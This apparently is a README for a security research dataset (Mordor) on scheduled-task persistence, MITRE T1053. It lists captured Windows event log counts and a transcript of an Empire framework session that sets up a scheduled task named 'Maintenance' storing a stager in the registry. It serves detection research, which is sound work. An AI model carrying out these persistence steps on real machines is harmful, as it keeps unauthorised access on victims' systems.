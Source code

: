 # Empire Userland Scheduled Tasks

An adversary can create scheduled tasks to maintain persistence in the environment.

## Technique(s) ID

T1053

## Creators

Roberto Rodriguez [@Cyb3rWard0g](https://twitter.com/Cyb3rWard0g)

## Dataset

[empire_userland_schtasks.tar.gz](./empire_userland_schtasks.tar.gz)

## Network Environment

Shire

## Time Taken

2019-03-19024742

## About this file

| log_name                                 | source_name                         | task                                                   |   record_number |
|------------------------------------------|-------------------------------------|--------------------------------------------------------|-----------------|
| Windows PowerShell                       | PowerShell                          | Pipeline Execution Details                             |             139 |
| Security                                 | Microsoft-Windows-Security-Auditing | Token Right Adjusted Events                            |             198 |
| Security                                 | Microsoft-Windows-Security-Auditing | Filtering Platform Connection                          |              88 |
| Security                                 | Microsoft-Windows-Security-Auditing | Group Membership                                       |               7 |
| Security                                 | Microsoft-Windows-Security-Auditing | Logoff                                                 |               7 |
| Security                                 | Microsoft-Windows-Security-Auditing | Logon                                                  |               7 |
| Security                                 | Microsoft-Windows-Security-Auditing | Special Logon                                          |               6 |
| Security                                 | Microsoft-Windows-Security-Auditing | File Share                                             |               3 |
| Security                                 | Microsoft-Windows-Security-Auditing | Process Termination                                    |               3 |
| Security                                 | Microsoft-Windows-Security-Auditing | Detailed File Share                                    |               1 |
| Security                                 | Microsoft-Windows-Security-Auditing | Other Object Access Events                             |               1 |
| Security                                 | Microsoft-Windows-Security-Auditing | Sensitive Privilege Use                                |               1 |
| Microsoft-Windows-Sysmon/Operational     | Microsoft-Windows-Sysmon            | Process accessed (rule: ProcessAccess)                 |             161 |
| Microsoft-Windows-Sysmon/Operational     | Microsoft-Windows-Sysmon            | Network connection detected (rule: NetworkConnect)     |              69 |
| Microsoft-Windows-Sysmon/Operational     | Microsoft-Windows-Sysmon            | Pipe Connected (rule: PipeEvent)                       |              33 |
| Microsoft-Windows-Sysmon/Operational     | Microsoft-Windows-Sysmon            | Image loaded (rule: ImageLoad)                         |              24 |
| Microsoft-Windows-Sysmon/Operational     | Microsoft-Windows-Sysmon            | Registry object added or deleted (rule: RegistryEvent) |              23 |
| Microsoft-Windows-Sysmon/Operational     | Microsoft-Windows-Sysmon            | File created (rule: FileCreate)                        |               8 |
| Microsoft-Windows-Sysmon/Operational     | Microsoft-Windows-Sysmon            | Pipe Created (rule: PipeEvent)                         |               1 |
| Microsoft-Windows-Sysmon/Operational     | Microsoft-Windows-Sysmon            | Process Create (rule: ProcessCreate)                   |               1 |
| Microsoft-Windows-Sysmon/Operational     | Microsoft-Windows-Sysmon            | Registry value set (rule: RegistryEvent)               |               1 |
| Microsoft-Windows-PowerShell/Operational | Microsoft-Windows-PowerShell        | Executing Pipeline                                     |             116 |
| Microsoft-Windows-DNS-Client/Operational | Microsoft-Windows-DNS-Client        | na                                                     |             192 |

## Attacker Activity

```
usemodule persistence/userland/schtasks
```

```
(Empire: powershell/persistence/userland/schtasks) > set Listener https
(Empire: powershell/persistence/userland/schtasks) > set TaskName Maintenance
(Empire: powershell/persistence/userland/schtasks) > info   

              Name: Invoke-Schtasks
            Module: powershell/persistence/userland/schtasks
        NeedsAdmin: False
         OpsecSafe: False
          Language: powershell
MinLanguageVersion: 2
        Background: False
   OutputExtension: None

Authors:
  @mattifestation
  @harmj0y

Description:
  Persist a stager (or script) using schtasks. This has a
  moderate detection/removal rating.

Comments:
  https://github.com/mattifestation/PowerSploit/blob/master/Pe
  rsistence/Persistence.psm1

Options:

  Name       Required    Value                     Description
  ----       --------    -------                   -----------
  DailyTime  False       09:00                     Daily time to trigger the script        
                                                   (HH:mm).                                
  ProxyCreds False       default                   Proxy credentials                       
                                                   ([domain\]username:password) to use for 
                                                   request (default, none, or other).      
  ExtFile    False                                 Use an external file for the payload    
                                                   instead of a stager.                    
  Cleanup    False                                 Switch. Cleanup the trigger and any     
                                                   script from specified location.         
  TaskName   True        Maintenance               Name to use for the schtask.            
  IdleTime   False                                 User idle time (in minutes) to trigger  
                                                   script.                                 
  ADSPath    False                                 Alternate-data-stream location to store 
                                                   the script code.                        
  Agent      True        FD6A3MGY                  Agent to run module on.                 
  Listener   False       https                     Listener to use.                        
  RegPath    False       HKCU:\Software\Microsoft  Registry location to store the script   
                         \Windows\CurrentVersion\  code. Last element is the key name.     
                         debug                   
  Proxy      False       default                   Proxy to use for request (default, none,
                                                   or other).                              
  UserAgent  False       default                   User-agent string to use for the staging
                                                   request (default, none, or other).      

(Empire: powershell/persistence/userland/schtasks) > execute
[>] Module is not opsec safe, run? [y/N] y
[*] Tasked FD6A3MGY to run TASK_CMD_WAIT
[*] Agent FD6A3MGY tasked with task ID 11
[*] Tasked agent FD6A3MGY to run module powershell/persistence/userland/schtasks
(Empire: powershell/persistence/userland/schtasks) > SUCCESS: The scheduled task "Maintenance" has successfully been created.
Schtasks persistence established using listener https stored in HKCU:\Software\Microsoft\Windows\CurrentVersion\debug with Maintenance daily trigger at 09:00.

(Empire: powershell/persistence/userland/schtasks) >
```